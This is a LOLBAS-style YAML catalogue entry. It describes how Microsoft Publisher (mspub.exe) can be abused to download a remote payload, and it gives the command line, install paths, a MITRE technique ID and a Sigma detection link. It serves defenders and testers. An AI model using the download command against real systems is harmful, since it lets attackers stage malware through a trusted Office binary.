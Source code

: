 ```yaml
---
Name: Mspub.exe
Description: Microsoft Publisher
Author: Nir Chako
Created: 2022-08-02
Commands:
  - Command: mspub.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office16\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office15\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\MSPUB.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\MSPUB.exe
  - Path: C:\Program Files\Microsoft Office\Office14\MSPUB.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/19396788dbedc57249a46efed2bb1927abc376d4/rules/windows/process_creation/proc_creation_win_lolbin_mspub_download.yml
  - IOC: Suspicious Office application internet/network traffic
Acknowledgement:
  - Person: 'Nir Chako (Pentera)'
    Handle: '@C_h4ck_0'
---
```

